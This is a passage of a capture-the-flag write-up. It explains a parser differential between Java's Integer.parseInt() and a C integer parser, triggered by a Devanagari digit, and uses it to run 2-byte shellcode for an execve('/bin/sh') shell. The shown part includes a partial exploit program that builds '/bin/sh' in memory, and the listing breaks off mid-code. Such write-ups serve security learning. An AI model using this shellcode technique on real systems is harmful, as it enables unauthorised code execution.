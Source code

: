 Fortunately, while I was trying to test the behaviour of `Integer.parseInt()` with values like '\x0a'(newline) or '\x00' null byte, I came across this [article](https://stackoverflow.com/questions/3613759/x-escape-in-java) as I tried to use hex escapes in my Java code. While reading the accepted answer, I immediately realised how to achieve this parser differential.
> Strings in Java are always encoded in UTF-16, so it uses a Unicode escape: \u0048. Octal characters are supported as well: \110
>
> ~erickson

*Stack overflow to the rescue as usual*

Ｓｏ ｗｈａｔ＇ｓ ｓｏ ｇｒｅａｔ ａｂｏｕｔ ｕｎｉｃｏｄｅ？ Using unicode, we are able to force this parser differential between `Integer.parseInt()` in a Java context, and the `intbracket()` in C. Here is an example to showcase this difference in how the two parse unicode.

```
Let's use this devangari digit six, ( ६ )

In Java,
    Integer.parseInt("६") = 6

In C,
    // in the internal buffer ६ is actually 3 bytes (\xe0\xa5\xac) 
    intbracket("\xe0\xa5\xac") = -9522 // 0xffffdace 
```

Now, we should have all the bugs we need to exploit this challenge!

# Finishing touches

I will briefly go through the exploitation flow that I used in this challenge. Since we want to get a shell, we would want to call the `execve` syscall with the following arguments, `rdi = pointer to "/bin/sh\x00"`, `rsi=0; rdx=0`, `rax=59 (execve syscall number)`. As we can effectively only run 2 bytes of shellcode at a time, we can ease our exploitation by forming the "/bin/sh\x00" string in memory using the constructs provided to us by the intermediate code. However, since we are limited in the value that we can place into the registers, I used a for loop to repeatedly increment the value of the eax register to 0x68732f("/sh\x00") and 0x6e69622f("/bin"), placing these values in the `rw-` region that is allocated for our code. However, one issue that occurred is that as mentioned [earlier](#overview), we are limited to jumping 10000 times (limited by the value of ecx). To solve this issue, I used the parser differential bug, to run 2-bytes of arbitrary shellcode twice, in order to change the value of rcx to something larger

```C
const char * prog[] = {
    "JMP(\xe0\xa5\xac)",
    ///////////// 0
    "MOV(A, 95318)",        // push rsi
    "JMP(\xe0\xa5\xae)",
    "MOV(A, 95321)",        // pop rcx
    "MOV(A, 0)",
    "CMP(A, 68)",           // (5) <---a
    ///////////// 5
    "JEQ(14)",              // b------->
    "STR(A, 0)",            // store ctr in 0
    "LDR(A, 1)",            // load value from 1
    "ADD(A, 99999)",        // value += 99999
    "STR(A, 1)",            // store value in 1
    ///////////// 10
    "LDR(A, 0)",            // load ctr from 0
    "ADD(A, 1)",            // ctr++
    "JMP(5)",               // a------->
    "LDR(A, 1)",
    "ADD(A, 45299)",        // value += 45299 => 0x68732f
    ///////////// 15
    "STR(A, 1)",            // save "/sh" in 1

```